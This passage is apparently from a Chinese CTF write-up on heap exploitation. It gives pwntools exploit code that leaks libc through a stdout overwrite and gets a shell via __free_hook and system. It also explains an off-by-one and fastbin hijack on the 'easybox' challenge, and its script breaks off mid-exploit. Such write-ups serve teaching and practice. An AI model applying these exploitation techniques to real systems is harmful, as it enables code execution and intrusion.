 ```python
        edit(0,p64(0x0FBAD1887) +p64(0)*3 + '\x88')
        r.recvline()
        print '1'
        leak=u64(r.recv(8))
        print 'leak '+hex(leak)
        if(leak==0x2d2d2d0a656e6f64):
            raise TypeError
        libc_base=leak-libc.symbols['_IO_2_1_stdin_']
        print 'libc_base '+hex(libc_base)
        free_hook=libc_base+libc.symbols['__free_hook']
        edit(7,'/bin/sh\x00'+p64(0)+p64(free_hook))
        edit(0,p64(libc_base+libc.symbols['system']))
        free(7)
        #gd()
        r.interactive()
    except:
        r.close()

```

### easybox

libc-2.23
漏洞点在于add时候会溢出一位，可以off by one。
跟maj基本一样的利用链。
存在off by one的情况下可以修改堆的size段来制造堆重叠。
从而可以劫持fastbin。
但是跟maj不同的是程序开启了pie。
所以直接劫持fastbin到stdout的上面。
位置末尾三位在0x5dd
通过分配出unsorted bin后来留下libc地址随后爆破一位劫持fastbin到stdout。
之后劫持fastbin到malloc_hook去执行onegadget。
```python
from pwn import*
def add(index,size,content):
	r.sendlineafter('>>>','1')
	r.sendlineafter('idx:',str(index))
	r.sendlineafter('len:',str(size))
	r.sendafter('content:',content)
def free(index):
	r.sendlineafter('>>>','2')
	r.sendlineafter('idx:',str(index))
def gd():
	gdb.attach(r)
	pause()
while True:
	try:
		#r = process('./pwn')
		r = remote('101.200.53.148',34521)
		libc =ELF('./libc-2.23.so')
		add(0,0x18,'a')
		add(1,0x50,'a')
		add(2,0x60,'a')
		add(3,0x10,'a')
		add(4,0x10,'a')
		free(0)
		add(0,0x18,'a'*0x18+'\xf1')
		free(1)
		free(2)
		add(5,0x50,'a')
		add(6,0x70,'\xdd\x45')
		free(5)
		add(5,0x58,'a'*0x58+'\x71')
```